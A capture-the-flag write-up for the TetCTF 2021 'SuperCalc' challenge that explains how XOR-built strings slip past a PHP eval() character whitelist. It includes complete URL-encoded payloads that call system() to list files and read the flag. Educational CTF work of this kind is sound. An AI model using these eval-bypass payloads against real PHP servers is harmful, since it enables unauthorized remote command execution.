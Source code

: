 # SuperCalc
### TetCTF 2021

calc=// or / or . or .. gives internal server error...

When we don't pass the parameter "calc" in the URL, we get the source code:

``` php
<!-- Enjoy Tsu's Super Calculator <3, Not Only + - * / but also many other operators <3 <3 <3 -->

<?php

ini_set("display_errors", 0);

if(!isset($_GET["calc"])) 
{
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$/i', $_GET["calc"]);
    if($wl === 0 || strlen($_GET["calc"]) > 70) {
        die("Tired of calculating? Lets <a href='https://www.youtube.com/watch?v=wDe_aCyf4aE' target=_blank >relax</a> <3");
    }
    echo 'Result: ';
    eval("echo ".eval("return ".$_GET["calc"].";").";");
}
```

There's a very strict filter (`^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$`) that only allows:
- numbers (0-9)
- +, -, *, /
- ()
- ', ., ~, ^
- |, &

Hoever, we can maybe bypass it by converting there chars into others via XOR, OR and AND. Example: `'A' ^ '0' = 'q'`

So, we'll create a payload that uses others parameters such as $_GET[1], $_GET[2] etc. This makes it easier to insert any kind of code in the page/server.
We could execute something like `system('ls')` and the payload could be: `$_GET[1]($_GET[2])`. With this, `$_GET[1]` would be our function name (system) and `$_GET[2]` our parameter (ls).

We must find a way to "create" there chars:
`$` = 36
`_` = 95
`G` = 71
`E` = 69
`T` = 84
`[` = 91
`]` = 93

Trying to find the chars with python ([findingChars.py](https://github.com/Haltz01/CTFs_Writeups/blob/master/2021_TetCTF/SuperCalc/findingChars.py)), I only obtained 4 of there characters: $, G, E, T... But, with a 2nd round of enconding, it's possible to reach the other 3 chars:
```
'4' & '.' = '$'
'9' ^ '~' = 'G'
'9' ^ '|' = 'E'
'(' ^ '|' = 'T'
===============================
'0' ^ '1' ^ '^' = '_'
'0' ^ '3' ^ '^' = ']'
'0' ^ '5' ^ '^' = '['
```

To get `$_GET[1]($_GET[2])` in the code, we got a preg-matching payload: `('4'&'.').('0'^'1'^'^').('9'^'~').('9'^'|').('('^'|').('0'^'5'^'^').'1'.('0'^'3'^'^').'('.('4'&'.').('0'^'1'^'^').('9'^'~').('9'^'|').('('^'|').('0'^'5'^'^').'2'.('0'^'3'^'^').')'`

But now we must reduce its size to be under 70 chars...
`('4'&'.').('0'^'1'^'^').('9'^'~').('9'^'|').('('^'|').('0'^'5'^'^').'1'.('0'^'3'^'^').'('.('4'&'.').('0'^'1'^'^').('9'^'~').('9'^'|').('('^'|').('0'^'5'^'^').'2'.('0'^'3'^'^').')'` --nesting the ones with only 2 chars and using XOR--> `('4'&'.').('0'^'1'^'^').('99(99('^'~||~||').('0'^'5'^'^').'1'.('0'^'3'^'^').'('.('4'&'.').('0'^'1'^'^').('0'^'5'^'^').'2'.('0'^'3'^'^').')'` -> not enought (and this one is wrong, but whatever...) :(

To reduce the payload size, we can combine the chars if they all have the same amount of XOR operations.

Redoing all chars to be a combination of 3 XORs ([findingChars_XORs.py](https://github.com/Haltz01/CTFs_Writeups/blob/master/2021_TetCTF/SuperCalc/findingChars_XORs.py)):
```
'0' ^ '2' ^ '&' = '$'
'0' ^ '1' ^ '^' = '_'
'0' ^ ')' ^ '^' = 'G'
'0' ^ '^' ^ '+' = 'E'
'2' ^ '8' ^ '^' = 'T'
'0' ^ '5' ^ '^' = '['
'0' ^ '3' ^ '^' = ']'
And these are kinda simple, but I'll write them down:
'0' ^ '0' ^ '1' = '1'
'0' ^ '0' ^ '2' = '2'
'0' ^ '0' ^ '(' = '('
'0' ^ '0' ^ ')' = ')'
```

`$_GET[1]` = `('0'^'2'^'&').('0'^'1'^'^').('0'^')'^'^').('0'^'^'^'+').('2'^'8'^'^').('0'^'5'^'^').('0'^'0'^'1').('0'^'3'^'^')` 
= `'00002000' ^ '21)^8503' ^ '&^^+^^1^'` (nesting the XOR operations)
Similarly, `($_GET[2])` = `'0000020000' ^ '021)^85030' ^ '(&^^+^^2^)'`

Writting them together: `$_GET[1]($_GET[2])` = `'000020000000020000' ^ '21)^8503021)^85030' ^ '&^^+^^1^(&^^+^^2^)'`

Now, we finally have a payload:
` calc='000020000000020000'^'21)^8503021)^85030'^'&^^+^^1^(&^^+^^2^)'&1=system&2=ls `

URL encoding: `%27000020000000020000%27%5E%2721%29%5E8503021%29%5E85030%27%5E%27%26%5E%5E%2B%5E%5E1%5E%28%26%5E%5E%2B%5E%5E2%5E%29%27&1=system&2=ls`

And, IT WORKS!!!
``` html
Result: fl4g1sH3re.php index.php index.php
```

Now, we just have to read flagshere.php using `calc=%27000020000000020000%27%5E%2721%29%5E8503021%29%5E85030%27%5E%27%26%5E%5E%2B%5E%5E1%5E%28%26%5E%5E%2B%5E%5E2%5E%29%27&1=system&2=cat+fl4g1sH3re.php`

There it is:
``` php
<?php

$flagflagflagflagflagflag = "TetCTF{_D0_Y0u_Know_H0w_T0_C4lculat3_1337?_viettel_*100*817632506233949#}";

?>
```

**FLAG: `TetCTF{_D0_Y0u_Know_H0w_T0_C4lculat3_1337?_viettel_*100*817632506233949#}`**